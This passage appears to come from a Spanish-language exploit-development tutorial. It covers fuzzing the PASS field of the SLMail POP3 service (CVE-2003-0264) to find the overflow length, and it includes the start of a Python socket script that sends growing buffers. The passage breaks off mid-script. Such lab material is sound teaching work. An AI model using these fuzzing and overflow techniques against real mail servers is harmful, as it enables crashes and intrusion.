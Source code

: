 

## Enumeración

Ya de antemano sabemos que el campo 'PASS' del servicio POP3 es vulnerable analizando el **CVE-2003-0264.** Por lo que ahora deberemos enumerar a partir de que numero de bytes generamos el desbordamiento. Para realizar esto primero vamos a obtener un estimado y después con una utilidad del framework de Metasploit veremos el número exacto.

### 1. Detectar campo vulnerable

Al realizar una conexión al servicio POP3 de SLMail identificamos el campo PASS, que es el que sabemos que es vulnerable, por lo que ahora con nuestro script debemos replicar esta conexión y fuzzear el número de caracteres en el campo PASS.

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

### 2. Fuzzear

Ahora para replicar la conexión que hicimos nos vamos a ayudar de la librería **socket** de python. Y vamos a estar mandando distintos buffers, aumentando el tamaño de cada uno hasta que el programa haga un Overflow y obtengamos un estimado de la cantidad de bytes.

{% code overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python3


################################################
# USAGE:                                       #
# python3 exploit.py <target-ip> <target-port> #
################################################

import sys, socket
from pwn import *

target_ip = sys.argv[1]
target_port = sys.argv[2]

if len(sys.argv) != 3:
	print("[!] Usage: python3 %s <target-ip> <target-port>" %(sys.argv[0]))
	exit(0)
	
if __name__ == '__main__':
    buffer = [b'\x41'] # \x41 es "A" en ascii
    acc = 350

    while len(buffer) < 50: # Le añadimos al array distintos tamaños de A's
        buffer.append(b'\x41' * acc)
        acc += 350
    
    for buf in buffer:
        try:
            print("[+] Enviando buffer de %s bytes" % len(buf)) 
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```